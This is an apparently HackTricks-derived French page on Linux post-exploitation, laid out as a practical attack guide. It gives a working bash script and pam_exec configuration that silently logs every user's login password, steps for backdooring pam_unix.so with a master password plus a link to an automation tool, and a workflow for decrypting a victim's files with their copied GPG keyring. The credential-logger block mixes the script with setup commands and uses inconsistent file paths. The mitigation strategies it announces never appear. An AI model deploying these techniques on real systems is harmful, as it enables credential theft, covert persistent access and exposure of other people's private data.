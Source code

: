 # Post-exploitation sous Linux

{{#include ../../banners/hacktricks-training.md}}

## Sniffing des mots de passe de connexion avec PAM

Configurons un module PAM pour enregistrer chaque mot de passe utilisé par les utilisateurs lors de la connexion. Si vous ne savez pas ce qu'est PAM, consultez :


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Pour plus de détails, consultez l'[article original](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Ceci n'est qu'un résumé :

**Présentation de la technique :**
Pluggable Authentication Modules (PAM) offrent une flexibilité dans la gestion de l'authentification sur les systèmes Unix. Ils peuvent renforcer la sécurité en personnalisant les processus de connexion, mais présentent aussi des risques s'ils sont mal utilisés. Ce résumé décrit une technique pour capturer des identifiants de connexion en utilisant PAM, ainsi que des stratégies d'atténuation.

**Capture des identifiants :**

- Un script bash nommé `toomanysecrets.sh` est créé pour enregistrer les tentatives de connexion, capturant la date, le nom d'utilisateur (`$PAM_USER`), le mot de passe (via stdin) et l'IP de l'hôte distant (`$PAM_RHOST`) dans `/var/log/toomanysecrets.log`.
- Le script est rendu exécutable et intégré à la configuration PAM (`common-auth`) en utilisant le module `pam_exec.so` avec des options pour s'exécuter silencieusement et exposer le token d'authentification au script.
- Cette approche montre comment un hôte Linux compromis peut être exploité pour enregistrer discrètement des identifiants.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Pour plus de détails, consultez l'[article original](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Ceci n'est qu'un résumé :

Le Pluggable Authentication Module (PAM) est un système utilisé sous Linux pour l'authentification des utilisateurs. Il fonctionne sur trois concepts principaux : **nom d'utilisateur**, **mot de passe**, et **service**. Les fichiers de configuration pour chaque service se trouvent dans le répertoire `/etc/pam.d/`, où des bibliothèques partagées gèrent l'authentification.

**Objectif** : Modifier PAM pour permettre l'authentification avec un mot de passe spécifique, contournant le mot de passe réel de l'utilisateur. Cela vise en particulier la bibliothèque partagée `pam_unix.so` utilisée par le fichier `common-auth`, qui est incluse par presque tous les services pour la vérification des mots de passe.

### Steps for Modifying `pam_unix.so`:

1. **Locate the Authentication Directive** in the `common-auth` file:
- La ligne responsable de vérifier le mot de passe d'un utilisateur appelle `pam_unix.so`.
2. **Modify Source Code**:
- Ajoutez une instruction conditionnelle dans le fichier source `pam_unix_auth.c` qui accorde l'accès si un mot de passe prédéfini est utilisé ; sinon, le processus d'authentification habituel est poursuivi.
3. **Recompile and Replace** the modified `pam_unix.so` library in the appropriate directory.
4. **Testing**:
- L'accès est accordé sur divers services (login, ssh, sudo, su, screensaver) avec le mot de passe prédéfini, tandis que les processus d'authentification normaux restent inchangés.

> [!TIP]
> Vous pouvez automatiser ce processus avec [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

## Déchiffrement de GPG loot via homedir relocation

Si vous trouvez un fichier chiffré `.gpg` et le dossier `~/.gnupg` d’un utilisateur (pubring, private-keys, trustdb) mais que vous ne pouvez pas déchiffrer à cause des permissions/verrous du homedir GnuPG, copiez le keyring dans un emplacement accessible en écriture et utilisez-le comme GPG home.

Erreurs typiques que vous verrez sans cela : "unsafe ownership on homedir", "failed to create temporary file", ou "decryption failed: No secret key" (parce que GPG ne peut pas lire/écrire le homedir original).

Flux de travail :
```bash
# 1) Stage a writable homedir and copy the victim's keyring
mkdir -p /dev/shm/fakehome/.gnupg
cp -r /home/victim/.gnupg/* /dev/shm/fakehome/.gnupg/
# 2) Ensure ownership & perms are sane for gnupg
chown -R $(id -u):$(id -g) /dev/shm/fakehome/.gnupg
chmod 700 /dev/shm/fakehome/.gnupg
# 3) Decrypt using the relocated homedir (either flag works)
GNUPGHOME=/dev/shm/fakehome/.gnupg gpg -d /home/victim/backup/secrets.gpg
# or
gpg --homedir /dev/shm/fakehome/.gnupg -d /home/victim/backup/secrets.gpg
```
Si le matériel de la clé secrète est présent dans `private-keys-v1.d`, GPG déverrouillera et déchiffrera sans demander de passphrase (ou il demandera si la clé est protégée).

## Références

- [0xdf – HTB Environment (GPG homedir relocation to decrypt loot)](https://0xdf.gitlab.io/2025/09/06/htb-environment.html)
- [GnuPG Manual – Home directory and GNUPGHOME](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration-Options.html#index-homedir)

{{#include ../../banners/hacktricks-training.md}}
